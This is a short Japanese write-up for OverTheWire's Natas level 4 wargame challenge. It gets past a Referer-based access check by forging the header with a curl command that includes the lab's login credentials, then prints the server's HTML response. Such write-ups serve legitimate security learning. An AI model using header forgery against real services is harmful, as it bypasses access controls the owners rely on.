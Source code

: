```

Natas Level 3 → Level 4

Username: natas4
URL:      http://natas4.natas.labs.overthewire.org

```

![](img/natas4-1.png)  

"http://natas5.natas.labs.overthewire.org/"からのアクセスでないとダメらしい。  

`Referer`ヘッダを使う。  

Refererヘッダとは  
> Referer ヘッダーにより、サーバーは人々がどこから訪問しに来たかを識別し、分析、ログ、キャッシュの最適化などに利用することができる

```
curl -H 'Referer:http://natas5.natas.labs.overthewire.org/' -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org/
```
すると、  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is ****************************
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

クリア
